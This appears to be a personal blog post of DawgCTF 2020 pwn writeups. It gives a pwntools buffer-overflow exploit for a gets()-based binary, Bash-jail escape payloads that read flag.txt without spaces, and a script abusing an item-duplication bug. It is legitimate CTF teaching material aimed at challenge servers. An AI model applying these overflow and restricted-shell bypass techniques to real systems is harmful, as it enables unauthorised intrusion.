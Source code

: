 ```yaml
---
title: DawgCTF 2020: a few pwn writeups
slug: dawg-2020-pwn
date: 13/04/2020
---
```


Yesterday I spent a couple of hours on the [DawgCTF 2020](https://umbccd.io/).
I only had time to work on a few pwn tasks. The challenges were nothing special
but I wrote two [pwntools](https://github.com/Gallopsled/pwntools) scripts that
might be worth sharing.

All challenges are remote.


## Bof To The Top

This is a standard buffer overflow. Source code for the vulnerable binary was
given:

```c
#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

There is a comment that tells us how the binary was compiled. It is a 32-bit,
with no PIE and stack protection disable. We have no information regarding ASLR
but this challenge is not worth many point so we guess it is disabled.

The `get_audition_info` function is the vulnerable one. Indeed, `gets` is
insecure and leads to a stack-based buffer overflow. Lucky us, we will not even
have to inject a shellcode or anything in memory as we can use the `audition`
function that can `cat` the flag for us.

But there is something else! The `audition` function, that we plan to jump to,
receives two parameters. These two `int` variables must have a specific value,
otherwise `system` will not be called for us. One could think that we can
directly jump to the `system` call, that must be located at
`audition+something`, but this is not possible as `flag` will not be
initialized and `system` will be called with a bad pointer as parameter.

We definitely need to pass the `time` and `room` parameters. In order to do so,
we can prepare a payload that is similar to ret2libc. A standard ret2libc
payload looks like so: `AAAAAAAAAA...AAAAAA + SYSTEM_ADDR + RET_ADDR +
BIN_SH_ADDR`. First, there is enough data to reach `EIP`. Then, we overwrite
`EIP` with the address of the function we want to jump to. Finally, we add a
return address (a fake `EIP` save), and our parameters.

Here is the exploit script:

```python
from pwn import *


DEBUG = False

if not DEBUG:
    r = remote(
        host='ctf.umbccd.io',
        port=4000
    )
else:
    r = process([
        'gdb', '-q',
        '/macOS/bof',
    ])

audition = 0x08049182  # Found using nm (one could use pwn.elf too)
tiime = 1200  # First parameter
room_num = 366  # Second parameter

smash_after = 62  # Can be found using pwn.cyclic
payload = b'A' * smash_after + p32(audition) + b'LOOL' + p32(tiime) + p32(room_num)

if DEBUG:
    # r.sendline('b * 0x0804921d')
    r.sendline('r')

log.info(r.recvuntil('name?\n'))
r.sendline(payload)  # When the overflow happens

log.info(r.recvuntil('ing?\n'))
r.sendline('whocares')  # We don't care about the second buffer

if DEBUG:
    r.interactive()
else:
    log.success(r.recvline().decode())  # Outputs the flag
```

The offsets are strictly the same locally and remotely. Also, our guess turned
out correct as there is no ASLR. We get our flag immediately:

```
[+] Opening connection to ctf.umbccd.io on port 4000: Done
[*] b"Welcome to East High!\nWe're the Wildcats and getting ready for our spring musical\nWe're now accepting signups for auditions!\nWhat's your name?\n"
[*] b'What song will you be singing?\n'
[+] DawgCTF{wh@t_teAm?}
```


## Nash

This challenge is some kind of Bash jail. There is a `flag.txt` file in the
current directory. We have to find a way to read it **without using any
space**, as they are stripped from our input.

The first thing that came to my mind is the [`IFS` trick](https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions#bypass-forbidden-spaces):

```
nash> cat${IFS}flag.txt`
```
Unfortunately, `IFS` is not set, and the `{}` are also stripped. A few
Google searchs later, I found another payload:

```
nash> `<flag.txt`
/bin/bash: line 1: DawgCTF{L1k3_H0W_gr3a+_R_sp@c3s_Th0uGh_0mg}: command not found
```

I'm not a Bash guy but from what I understand, the `<` allows to retrieve the
content of `flag.txt`. Then, the backticks introduce a subcommand. Thus, Bash
tries to run a command that is our flag.


## Tom Nook the Capitalist Raccoon

This is an Animal Crossing themed challenge. We can do some business with our
good friend Tom Nook, trading tarantulas for bells... But the only thing that
we really want to buy is the flag. Which costs 420000 bells. That is a lot.

We will not be able to make that much money the legal way so let's be an
average Animal Crossing player and cheat.

Source code is not provided but we have the [compiled binary](https://github.com/toomanybananas/dawgctf-2020-writeups/raw/master/pwn/animal_crossing/animal_crossing).
To be honest, I did not even have to reverse it as I found the bug just by
playing with the remote instance. The actual C source code is [available here](https://github.com/toomanybananas/dawgctf-2020-writeups/blob/master/pwn/animal_crossing/animal_crossing.c)
if you want to make an extended study.

The bug is as follows:

* The game starts
* You buy an item (let's say a tarantula, as it is worth a lot)
* Your inventory is now full
* You sell the tarantula
* It is not removed from you inventory, but you get the bells
* You sell the tarantula
* It is not removed from your inventory, but you get the bells
* ...
* You sell any other item to free some inventory space
* You get the flag

```python
from pwn import *


r = remote(
    host='ctf.umbccd.io',
    port=4400
)

# Buy
log.info(r.recvuntil('Choice: ').decode())
r.sendline('2')

# A tarantula
log.info(r.recvuntil('\n').decode())
r.sendline('2')

# Inventory is now full

# Sell A LOT of tarantulas
for i in range(100):
    log.info(r.recvuntil('Choice: ').decode())
    r.sendline('1')
    log.info(r.recvuntil('\n').decode())
    r.sendline('5')

# You are now rich

# Sell random item to free some space
log.info(r.recvuntil('Choice: ').decode())
r.sendline('1')
log.info(r.recvuntil('\n').decode())
r.sendline('1')

# Buy flag
log.info(r.recvuntil('Choice: ').decode())
r.sendline('2')
log.info(r.recvuntil('\n').decode())
r.sendline('6')

# Display inventory in order to display flag
log.info(r.recvuntil('Choice: ').decode())
r.sendline('1')
log.info(r.recvuntil('\n').decode())
r.sendline('1')

r.interactive()
```

Tom Nook is not amused.

![Angry Tom Nook](assets/dawg-2020/nook.png)


## Wrapping up

Too bad I could not spend much more time on this CTF. The organizers
published [all the challenges](https://github.com/toomanybananas/dawgctf-2020-writeups)
for us to replay at home fortunately.
